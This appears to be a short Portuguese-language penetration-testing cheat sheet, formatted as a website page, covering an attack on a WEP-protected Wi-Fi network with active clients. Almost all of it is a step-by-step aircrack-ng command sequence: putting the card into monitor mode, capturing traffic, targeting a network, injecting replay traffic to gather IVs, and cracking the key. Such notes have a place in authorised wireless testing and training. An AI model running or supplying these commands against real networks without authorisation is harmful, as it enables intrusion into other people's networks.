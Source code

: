 ```yaml
---
title: "Wi-fi Cheat Sheet"
permalink: /ct/wifi-cs/
layout: archive
author_profile: true
---
```


# Rede WEP
## Ataque: WEP com clientes

Colocando a placa em modo monitor
```
airmon-ng start wlan1
```

Dump do conteúdo capturado pela placa
```
airodump-ng wlan1mon
```

Travando a placa no alvo e salvando o conteúdo capturado em um arquivo
```
airmon-ng --essid <target-wifi> --channel <channel> wlan1mon -w wep
```

Gerando tráfego para capturar o IV
```
aireplay-ng -3 -b $bssid -h $client wlan1mon
```

Quebrando a chave capturada
```
aircrack-ng -a 1 wep-0*.cap
```